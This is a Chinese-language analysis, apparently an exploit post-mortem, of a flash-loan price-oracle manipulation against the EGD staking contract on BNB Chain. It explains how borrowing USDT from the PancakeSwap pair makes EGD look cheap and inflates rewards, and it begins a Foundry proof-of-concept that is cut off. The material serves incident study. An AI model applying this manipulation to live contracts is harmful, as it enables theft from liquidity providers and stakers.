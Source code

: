 其中 `address public pair`是在初始化函数中赋值的:

```solidity
    function initialize() public initializer {
        __Context_init_unchained();
        __Ownable_init_unchained();
        rate = [200, 180, 160, 140];
        startTime = block.timestamp;
        referRate = [6, 3, 1, 1, 1, 1, 1, 1, 2, 3];
        rateList = [547,493,438,383];
        dailyStakeLimit = 1000000 ether;
        wallet = 0xC8D45fF624F698FA4E745F02518f451ec4549AE8;
        fund = 0x9Ce3Aded1422A8c507DC64Ce1a0C759cf7A4289F;
        EGD = IERC20(0x202b233735bF743FA31abb8f71e641970161bF98);
        U = IERC20(0x55d398326f99059fF775485246999027B3197955);
        router = IPancakeRouter02(0x10ED43C718714eb63d5aA57B78B54704E256024E);
        pair = IPancakeFactory(router.factory()).getPair(address(EGD),address(U));
    }
```

可以在 [代理合约](https://bscscan.com/address/0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370#readProxyContract) 的 Read as Proxy 中点击 pair得到, 其值为 `0xa361433E409Adac1f87CDF133127585F8a93c67d`

或者通过 下面的命令行得到

```
 > anvil -f https://rpc.ankr.com/bsc   --fork-block-number 20245522
 > cast call 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370 "pair()"
 //0x000000000000000000000000a361433e409adac1f87cdf133127585f8a93c67d
```

在区块链浏览器中可以看到该地址是[Pancake LPs (Cake-LP)](https://bscscan.com/token/0xa361433e409adac1f87cdf133127585f8a93c67d)  (Pancake流动性提供商)

也就是说 `getEGDPrice()`是根据地址0xa361433E409Adac1f87CDF133127585F8a93c67d上的EGD token数量和USDT的数量 (也就是流动性)进行价格计算的. 

当USDT数量远远多于EDG数量时, EDG就能兑换更多的USDT, 也就是EDG更昂贵

相反, 当USDT数量很少时, EDG就兑换更少的USDT, 也就是EDG更便宜.

但我们知道在该[Pancke Swap LPs](https://bscscan.com/address/0xa361433e409adac1f87cdf133127585f8a93c67d#code) 提供了`swap`函数进行借贷操作,  我们可以大量借出USDT, 让EDG变得非常便宜, 那么根据下面的代码, 用户获得的用于奖励的EDG的数量就非常多.

```solidity
//获取当前EGD的价格,并确定发放EDG数量
//EGD越便宜, 获得的EGD数量就越多
rew += quota * 1e18 / getEGDPrice();
```



## 攻击过程

### 操纵EGD/USDT的价格, 让EGD非常便宜

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.10;

import "forge-std/test.sol";

interface IPancakePair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
```